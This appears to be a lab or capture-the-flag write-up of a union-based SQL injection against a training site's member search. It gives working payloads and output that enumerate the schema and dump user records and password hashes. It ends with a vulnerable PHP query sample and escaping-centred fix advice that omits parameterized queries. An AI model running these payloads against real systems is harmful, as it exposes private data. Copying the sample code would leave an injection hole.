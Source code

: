 # SQL injection searchimg

## Exploitation

On the homepage, in the navbar, there is a page named **MEMBERS**. On the page (http://192.168.1.48/?page=member), there is a form for searching member by id

A search with the number `1` returns:

```
ID: 1 
First name: Barack Hussein
Surname : Obama
```

We can check if there is a SQL injection vulnerability by sending and addition. If we send `2-1` and the result is the id `1`, the addition was executed by the SQL request

```
ID: 2-1 
First name: Barack Hussein
Surname : Obama
```

We can use a SQL injection on this form

We need to know the numbers of fields. We will use `ORDER BY` to do this. If we send `1 ORDER BY X` and get an error (no result), the number X of fields is false, we can get the number by increasing it and test

We will using our script to launch injections

```
$ ./exploit.py '1 ORDER BY 2'
['ID: 1 ORDER BY 2 ', 'First name: Barack Hussein', 'Surname : Obama']
$ ./exploit.py '1 ORDER BY 3'
["Unknown column '3' in 'order clause'"]
```

The number of fields is 2

The name of the database

```sql
-1 UNION SELECT 1, database()
```

```
$ ./exploit.py '-1 UNION SELECT 1, database()'
['ID: -1 UNION SELECT 1, database() ', 'First name: 1', 'Surname : Member_Sql_Injection']
```

The name of the database is `Member_Sql_Injection`

Get the tables list

```sql
-1 UNION SELECT 1, TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database() 
```

```
$ ./exploit.py '-1 UNION SELECT 1, TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database()'
['ID: -1 UNION SELECT 1, TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database()  ', 'First name: 1', 'Surname : users']
```

There is 1 table : `users`

Get the table colums

```sql
-1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database() 
```

```
$ ./exploit.py '-1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database() '
['ID: -1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'First name: 1', 'Surname : user_id']
['ID: -1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'First name: 1', 'Surname : first_name']
['ID: -1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'First name: 1', 'Surname : last_name']
['ID: -1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'First name: 1', 'Surname : town']
['ID: -1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'First name: 1', 'Surname : country']
['ID: -1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'First name: 1', 'Surname : planet']
['ID: -1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'First name: 1', 'Surname : Commentaire']
['ID: -1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'First name: 1', 'Surname : countersign']
```

There is 8 columns:

- user_id
- first_name
- last_name
- town
- country
- planet
- Commentaire
- countersign

Print all the columns value

```sql
-1 UNION SELECT 1, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM users 
```

```
$ ./exploit.py '-1 UNION SELECT 1, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM users'                          
['ID: -1 UNION SELECT 1, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM users ', 'First name: 1', 'Surname : 1Barack HusseinObamaHonolulu AmericaEARTHAmerca !2b3366bcfd44f540e630d4dc2b9b06d9']
['ID: -1 UNION SELECT 1, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM users ', 'First name: 1', 'Surname : 2AdolfHitlerBerlinAllemagneEarthIch spreche kein Deutsch.60e9032c586fb422e2c16dee6286cf10']
['ID: -1 UNION SELECT 1, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM users ', 'First name: 1', 'Surname : 3JosephStalineMoscouRussiaEarth????? ????????????? ?????????e083b24a01c483437bcf4a9eea7c1b4d']
['ID: -1 UNION SELECT 1, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM users ', 'First name: 1', "Surname : 5FlagGetThe424242Decrypt this password -&gt; then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28"]
```

We can see some instructions to get the flag. Need to decrypt the password, put in lowercase and sha256 the flag

After md5 decoding, the password is `FortyTwo`, in lowercase `fortytwo`, sha256 it!

## How to fix it?

An SQL injection is a sanitization issue. It happens when a SQL request is used with a non sanitized data. For exemple:

```php
$db = new mysqli('localhost', 'root', 'passwd', 'base');
$result = $db->query('SELECT * FROM users WHERE user="'.$_GET['user'].'" AND pass= "'.$_GET['password'].'"');
```

In this exemple, the SQL request is build with the raw GET parameters value. We can inject some SQL in the parameters and change the original request to access/modify some data.

The way to fix it is to ALWAYS sanitize ALL the input data. Never trust the user

To help, in PHP there is some functions to do it, for exemple `mysqli_real_escape_string()`, or you can do it manually.

The better way is to use a framework to manage to Database access for you.

## References

- https://zestedesavoir.com/tutoriels/945/les-injections-sql-le-tutoriel/les-injections-sql-classiques/affichage-denregistrements/
- https://blog.detectify.com/2016/03/08/what-is-a-sql-injection-and-how-do-you-fix-it/

